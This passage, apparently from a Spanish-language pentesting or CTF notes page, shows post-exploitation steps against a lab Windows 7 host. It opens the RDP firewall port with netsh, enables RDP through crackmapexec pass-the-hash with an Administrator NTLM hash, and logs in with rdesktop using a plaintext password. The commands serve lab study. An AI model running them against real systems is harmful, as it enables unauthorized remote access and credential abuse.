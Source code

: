 ### Abrir puertos con el Firewall

En este caso, el RDP

```null
C:\Windows\Temp\Privesc>netsh advfirewall firewall add rule name="RDP" dir=in action=allow protocol=TCP localport=3389
```

```Crackmapexec``` tiene un módulo que lo automatiza

```null
crackmapexec smb 10.10.10.40 -u 'Administrator' -H 'cdf51b162460b7d5bc898f493751a0cc' -M rdp -o action=enable
SMB         10.10.10.40     445    HARIS-PC         [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:HARIS-PC) (domain:haris-PC) (signing:False) (SMBv1:True)
SMB         10.10.10.40     445    HARIS-PC         [+] haris-PC\Administrator:cdf51b162460b7d5bc898f493751a0cc (Pwn3d!)
RDP         10.10.10.40     445    HARIS-PC         [+] RDP enabled successfully
```

Me conecto con ```rdesktop```

```null
rdesktop 10.10.10.40 -u 'Administrator' -p 'ejfnIWWDojfWEKM'
Autoselecting keyboard map 'en-us' from locale

ATTENTION! The server uses and invalid security certificate which can not be trusted for
the following identified reasons(s);

 1. Certificate issuer is not trusted by this system.

     Issuer: CN=haris-PC


Review the following certificate info before you trust it to be added as an exception.
If you do not trust the certificate the connection atempt will be aborted:

    Subject: CN=haris-PC
     Issuer: CN=haris-PC
 Valid From: Fri Apr  7 10:55:07 2023
         To: Sat Oct  7 10:55:07 2023

  Certificate fingerprints:

       sha1: 916e98bc56e226b3393f246f10ebe7dcbc4a1c71
     sha256: 09ce5efc2ff9fffd720b0e96cf8d3560917146af58e62893f1d9b96c25eed4ac


Do you trust this certificate (yes/no)? yes
```

### Persistencia
